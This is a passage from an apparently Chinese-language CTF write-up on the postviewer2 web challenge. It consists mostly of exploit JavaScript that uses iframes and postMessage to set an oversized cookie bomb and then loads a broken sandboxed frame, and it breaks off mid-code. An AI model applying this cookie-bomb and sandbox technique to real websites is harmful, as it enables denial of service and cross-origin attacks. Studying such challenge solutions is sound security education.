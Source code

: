 此時的 exploit 就已經 100 行了而且超複雜：

``` html
<body></body>
<script>
  const sleep = ms => new Promise(r => setTimeout(r, ms))

  function createBombFrame() {

    let bombFrame = document.createElement("iframe")
    url = new URL("https://sbx-gggg.postviewer2-web.2023.ctfcompetition.com/shim.html");
    url.searchParams.set('o', window.origin);
    bombFrame.src = url

    bombFrame.addEventListener('load', () => {
      console.log('bombFrame created')
      bombFrame.contentWindow.postMessage({
        body: `
          <script>
            const domain = document.domain
            const cookieCount = 10
            const cookieLength = 3000
            const expireAfterMinute = 5
            setCookieBomb()

            function setCookie(key, value) {
              const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
              const v = key + '=' + value + '; path=/bomb; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
              parent.document.cookie = v
            }

            function setCookieBomb() {
              const value = 'Boring' + '_'.repeat(cookieLength)
              for (let i=0; i<cookieCount; i++) {
                setCookie('key' + i, value);
              }
            }
          <\/script>`,
        mimeType: "text/html", sandbox: ["allow-modals", "allow-scripts", ["allow-same-origin"], ["allow-same-origin"]]
      }, "*")
    }, { once: true });
    document.body.appendChild(bombFrame)
  }

  function createBrokenFrame() {
    return new Promise(resolve => {
      let brokenFrame = document.createElement("iframe")
      url = 'https://sbx-gggg.postviewer2-web.2023.ctfcompetition.com/bomb'
      brokenFrame.src = url
      brokenFrame.sandbox = 'allow-modals allow-scripts allow-top-navigation allow-same-origin'
      brokenFrame.addEventListener('load', () => {
        console.log('brokenFrame loaded')
        resolve()
      }, { once: true });
      brokenFrame.addEventListener('error', (e) => {
        console.log('brokenFrame error', e)
        resolve()
      }, { once: true });
      document.body.appendChild(brokenFrame)
    })
  }

```